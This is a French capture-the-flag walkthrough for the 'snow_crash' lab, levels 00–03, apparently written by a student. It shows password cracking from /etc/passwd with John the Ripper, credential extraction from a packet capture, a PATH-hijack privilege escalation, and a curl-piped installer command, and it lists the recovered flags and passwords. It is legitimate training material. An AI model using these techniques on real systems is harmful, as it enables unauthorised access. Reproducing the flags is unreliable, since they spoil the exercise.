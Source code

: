 # snow_crash

Se connecter : 

```c
login: level00
Password: level00
```

level00

Definitions :

Un groupe = c'est un ensemble d'utilisateurs qui partagent les mêmes droits.
Si un fichier apparatient au groupe users,a lros tout les utuilisateurs du groupe users pourront y acceder selon les permissions.


groups 



Piste : 
J'ai taper groups 
```c
level00 users
```

level00 c'est mon utilisateur principal et il appartient au groupe users.

donc j'ai voulu chercher dans l'ordinateur les fichiers qui appartient a l'utilisateur flag00 et tout le reste je les dans la poubelle temporaire ( Poubelle qui eface tout ce qu'on l'envoie)
donc il y a deux choses qui reste 

```c
/usr/sbin/john
/rofs/usr/sbin/john
```

J'ai cat le contenu et je les decrypter surdconde.fr 
cdiiddwpgswtgt

c'est du rot15

resultat: 

```c
nottoohardhere
```

Je me suis connecter avec : 
su flag00
Password: nottoohardhere

flag: 
x24ti5gi3x0o12eh4esiuxias

-----------------

level01 

Piste: 
j'ai tape : 

```c
cat /etc/passwd 
cela liste tout les comptes utilisateur qu'il y a sur cette ordinateur
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

```

c'est le mot de pass et pour dechiffer un mot de passe, il faut utiliser
john the ripper
J'ai installer nix-shell 
```c
sh <(curl -L https://nixos.org/nix/install)
```
puis j'ai installer john the ripper 

```c
nix-shell -p john
```

j'ai envoyer le contenu dans un fichier
```c
echo "flag01:42hDRfypTqqnw" > hash.txt

```
j'ai utiliser john sur le fichier

```c
john hash.txt
```

flag: f2av5il02puano7naaf6adaaf

------------------------------------------
level02

j'ai fais ls
j'ai vue .pcap 
c'est un enregistrement de trafic et donc on utilise wireshark pour explorer
et comprendre le trafic.

scp -P 4242 level02@10.11.248.91:/home/user/level02/level02.pcap .
pour mettre le fichier sur mon ordinateur

installer Wireshark

```c
nix-shell -p wireshark
```

j'ai donner les deroit au fichier et
j'ai lancer wireshark
```c
chmod 777 level02.pcap
wireshark level02.pcap
```

clique droit sur Pas sword:
```c
tcp screen
```

```c
..%..%..&..... ..#..'..$..&..... ..#..'..$.. .....#.....'........... .38400,38400....#.SodaCan:0....'..DISPLAY.SodaCan:0......xterm.........."........!........"..".....b........b....	B.
..............................1.......!.."......"......!..........."........"..".............	..
.....................
Linux 2.6.38-8-generic-pae (::ffff:10.1.1.2) (pts/10)

..wwwbugs login: l.le.ev.ve.el.lX.X
..
Password: ft_wandr...NDRel.L0L
.
..
Login incorrect
wwwbugs login: 
```
Il a taper son mot de pass puis 3 fois il a appuyer sur del.
ft_waNDReLOL

flag: kooda2puivaav1idi4f57q8iq

-----------

level03

ls -l 
j'ai vue qu'il avait un executable

je l'ai copier sur mon ordi pour l'analyser sur dogbolt
```c
scp -P 4242 level03@10.11.248.91:/home/user/level03/level03 ~/Desktop/
```

etape: 
dans le main on a vue ceci 

```c
system("/usr/bin/env echo Exploit me")
```
Cela veut dire qu'il execute un truc dans la variable env. 


donc on vas lui injecter un faux echo 
```c
echo "/bin/sh" > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
```


flag: qi0maab88jeaj46qoumi7maus


level04





